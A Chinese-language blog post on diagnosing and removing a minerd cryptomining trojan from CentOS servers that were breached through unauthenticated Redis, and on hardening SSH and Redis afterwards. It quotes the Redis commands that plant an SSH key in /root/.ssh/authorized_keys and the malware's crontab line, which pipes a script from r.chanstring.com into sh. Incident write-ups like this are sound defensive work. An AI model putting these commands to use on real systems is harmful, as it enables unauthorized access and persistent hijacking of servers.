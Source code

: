 ```yaml
---
title: 彻底清除Linux centos minerd木马
categories:
  - 错误集锦
tags:
  - redis
date: 2016-10-26 22:41:19
toc: false
---
```


>前几天，公司两台linux服务器，一台访问速度很慢，cpu跑满，一台免密码登录失效，公钥文件被改写成redis的key。用htop命令查询发现了minerd木马进程，初步猜测是redis没有配访问权限造成的。网上查询minerd木马，发现这是一个很常见的挖矿程序，相关猜测也得到了验证。

下文是网上搜索到的清除minerd木马方法。

## 现状描述
1、top可以看到，这个minerd 程序把cpu跑满了

![1.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/1.jpg)
2、ps aux | grep minerd
可知是这个程序: /opt/minerd

<!-- more -->

这个不是我们自己启动的，可以断定服务器被黑了
这个进程是root用户启动的，代码有漏洞可能性不大（web服务是www用户启动的），多半黑客已经登录服务器了

![2.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/2.jpg)
3、有可能是免密登录了，去/root/.ssh 目录下，并没有发现authorized_keys，但发现了KHK75NEOiq这个文件

查看 vim KHK75NEOiq
可以看到内容就是免密码登录的公钥

![3.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/3.jpg)
4、在ssh的配置文件/etc/ssh/sshd_config中也可以看到把AuthorizedKeysFile指向了这个文件了（.ssh/KHK75NEOiq）

猜想是这样的：通过authorized_keys免密码登录后，在这个目录下创建了KHK75NEOiq这个文件，修改了AuthorizedKeysFile的指向，就把authorized_keys这个文件删除了。

![4.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/4.jpg)
5、那么是写进来authorized_keys的那？

之前我处理过类似的问题，是redis未授权导致的，也就是说外网可以直接不用密码登录我的redis, 连上redis后，通过以下命令即可创建文件：

<font style="color:red">**config set dir /root/.ssh
config set dbfilename authorized_keys
set key value，其中value为生成公钥，即可将公钥保存在服务器，使得登录时不需要输入账号与密码。**</font>

<br/>

---

## 先堵住免登录漏洞
1、修改ssh端口
编辑/etc/ssh/sshd_config文件中的Port 22将22修改为其他端口

2、禁止root用户登陆
编辑/etc/ssh/sshd_config文件中的PermitRootLogin 修改为no

3、修改无密码登陆的文件路径
编辑/etc/ssh/sshd_config文件中的AuthorizedKeysFile 修改为其他文件路径

4、删除 .ssh下的 KHK75NEOiq

5、不让外网直接连接
在 redis.conf 文件中找到#bind 127.0.0.1，把前面的#号去掉，重启

---

## 找到木马守护进程
1、通常直接kill掉进程，是不好使的，肯定有守护进程，还有系统自启动，所以清理步骤是这样的：
1）干掉守护进程
2）干掉系统自启动
3）干掉木马进程

找到木马守护进程并干掉

守护进程有大概有两种存在形式，crontab 和常驻进程，常驻进程得慢慢分析，我们先看crontab，有一条不是我创建的任务。任务是：直接从远程下载一个脚本pm.sh 并执行。

![5.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/5.jpg)

2、我们来看看这个脚本

![6.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/6.jpg)

3、大致逻辑是这样的：
1）把 */10 * * * * curl -fsSL http://r.chanstring.com/pm.sh?0706 | sh 写入crontab
2）把authorized_keys删掉，并创建免登录文件/root/.ssh/KHK75NEOiq，修改ssh配置重启
3）curl下载/opt/KHK75NEOiq33 这个文件，并执行安装（/opt/KHK75NEOiq33 --Install），然后启动ntp

4、基本可以断定这个ntp就是守护进程，但看到ntp真的有些怕怕，ntp不是搞时间同步的吗，其实 Linux正常的ntp服务叫ntpd，并非ntp，很有迷惑性啊

![7.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/7.jpg)

5、但为了让自己放心，还是校验了一番
我们先从时间上校验，ntp是不是木马任务后创建的

查看这个木马任务第一次执行的时间
去/var/log下看cron的日志

![8.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/8.jpg)

6、Jul 24 09:23:01 第一次执行： curl -L http://r.chanstring.com/pm.sh?0703
Jul 24 09:30:01 第一次我们目前crontab里的任务：curl -fsSL http://r.chanstring.com/pm.sh?0706
Jul 24 09:49 脚本/etc/init.d/ntp的创建时间

从pm.sh这个脚本可知 curl下来/opt/KHK75NEOiq33这个文件，并执行安装 /opt/KHK75NEOiq33 --Install 比较耗时间，我执行了一下，在我的机器上是10多分钟。

所以创建时间上基本吻合

![9.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/9.jpg)

7、我们看一下ntp的随系统启动
runlevel 2 3 4 5都启动了，够狠的呀

![10.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/10.jpg)

8、看一下常用的3吧
可以看到 有个S50ntp 软链了脚本/etc/init.d/ntp

![11.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/11.jpg)

9、我们查看系统启动日志
vim /var/log/boot.log
有一条是Staring S50ntp，这个基本对应脚本/etc/init.d/ntp 中的 echo "Starting $name"

![12.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/12.jpg)

10、我们来看一下 /etc/init.d/ntp 这个脚本
$name应该就对应的值是 S50ntp，通过stdout_log,stderr_log,pid_file也得到了验证。

![13.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/13.jpg)

11、通过搜索安装文件（/opt/KHK75NEOiq33），可知看到 /opt/KHK75NEOiq33 --Install的过程中写入了ntp脚本 自启动 /opt/minerd等一系列的操作。

![14.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/14.jpg)

12、打开 /usr/local/etc/minerd.conf，内容就是/opt/minerd这个进程后的一些参数

![15.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/15.jpg)

13、好了 验证完毕，可以干掉这个ntp了

---

## 清理木马
1、去掉crontab文件中的有关木马内容：
/var/spool/cron/crontabs/root
/var/spool/cron/root

2、干掉守护进程ntp，并删除相关文件

![16.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/16.jpg)
![17.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/17.jpg)

3、干掉木马进程及其文件

![18.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/18.jpg)

4、干掉安装文件及免密登录的文件

![19.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/19.jpg)

5、干掉随系统启动的文件

![20.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/20.jpg)

6、top一下 一切都正常了！

![21.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/21.jpg)

7、重启一下，也没问题了

![22.jpg](http://7xvfir.com1.z0.glb.clouddn.com/%E5%BD%BB%E5%BA%95%E6%B8%85%E9%99%A4Linux%20centos%20minerd%E6%9C%A8%E9%A9%AC/22.jpg)